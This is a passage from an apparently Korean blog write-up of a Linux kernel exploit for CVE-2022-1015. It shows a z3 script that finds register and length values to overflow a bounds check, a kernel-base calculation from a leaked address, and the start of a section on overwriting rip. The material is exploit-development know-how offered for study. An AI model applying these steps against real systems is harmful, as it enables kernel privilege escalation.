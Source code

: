 머리가 안돌아가서 z3로 입력 값을 구했다. 


```python
from z3 import *

s = Solver()

reg = BitVec('reg', 64)
len = BitVec('len', 64)

s.add(ULE(len, 0xff))
s.add(UGE(len, 0xc0)) # 대충 좀 큰 친구 찾기
s.add(UGE((reg - 4) * 4 + len, 0x100000000))
s.add(ULE(reg, 0xffffffff))
s.add((reg - 4) & 0xff == 228) 
s.add(ULE(((reg-4) * 4 + len) & 0xffffffff, 0x50))

sol = s.check()
if sol == sat:
    print(s.model())
else:
    print("unsat")
```


![6](/assets/img/2023-09-23-Linux-Kernel-Exploit:-CVE-2022-1015.md/6.png)


leak한 값 - kernel base = offset이다.


![7](/assets/img/2023-09-23-Linux-Kernel-Exploit:-CVE-2022-1015.md/7.png)


따라서 0xaa3f46이 오프셋이다.


커널 베이스는 다음과 같이 구한다.


kernel base = leak + offset


## 2. Overwrite rip


overwrite를 위한 rule을 세팅하기 위해 socket server를 하나 더 열었다.
